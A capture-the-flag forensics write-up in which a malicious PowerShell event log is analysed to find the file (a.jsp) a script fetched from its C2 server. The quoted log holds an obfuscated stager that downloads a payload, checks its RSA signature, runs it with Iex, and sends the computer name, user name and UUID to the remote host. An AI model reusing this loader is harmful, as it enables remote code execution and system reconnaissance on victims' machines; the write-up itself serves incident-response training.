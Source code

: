 # DFIR 4

> **Challenge Description:** A lot of malicious PowerShell activities have triggered our EDR. Please investigate the given event log. What is the file name that being was used by the malware as part of the communication with their C2 server?
> 
> **Flag Format:** `ihack{filename.ext}`

### Solution
After going through the log file manually, the constant invocation of script block IEX stood out of the spotlight the most.

```
ScriptBlock ID: 09ee9e58-6311-4724-871d-737c3f8ad7ba
Path: "
Verbose,8/12/2022 5:37:20 PM,Microsoft-Windows-PowerShell,4105,Starting Command,"Started invocation of ScriptBlock ID: 7b57887c-a71f-4f2e-9502-00ea66c5cc18
Runspace ID: 9f39f3e3-de20-4e46-a1f3-5a77082d269f"
Warning,8/12/2022 5:37:20 PM,Microsoft-Windows-PowerShell,4104,Execute a Remote Command,"Creating Scriptblock text (1 of 1):
if(!$v){$v='?rep_'+(Get-Date -Format 'yyyyMMdd')}

$tmps='function a($u){$d=(Ne`w-Obj`ect Net.WebC`lient).""DownloadData""($u);$c=$d.count;if($c -gt 173){$b=$d[173..$c];$p=New-Object Security.Cryptography.RSAParameters;$p.Modulus=[convert]::FromBase64String(''2mWo17uXvG1BXpmdgv8v/3NTmnNubHtV62fWrk4jPFI9wM3NN2vzTzticIYHlm7K3r2mT/YR0WDciL818pLubLgum30r0Rkwc8ZSAc3nxzR4iqef4hLNeUCnkWqulY5C0M85bjDLCpjblz/2LpUQcv1j1feIY6R7rpfqOLdHa10='');$p.Exponent=0x01,0x00,0x01;$r=New-Object Security.Cryptography.RSACryptoServiceProvider;$r.ImportParameters($p);if($r.verifyData($b,(New-Object Security.Cryptography.SHA1CryptoServiceProvider),[convert]::FromBase64String(-join([char[]]$d[0..171])))){I`ex(-join[char[]]$b)}}}$url=''http://''+''U1''+''U2'';a($url+''/a.jsp'+$v+'?''+(@($env:COMPUTERNAME,$env:USERNAME,(get-wmiobject Win32_ComputerSystemProduct).UUID,(random))-join''*''))'

$sa=([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] ""Administrator"")
```

 The PowerShell script is reaching out to a remote address, presumably the C2 server to retrieve a file `a.jsp`.

**Flag:** `ihack{a.jsp}`
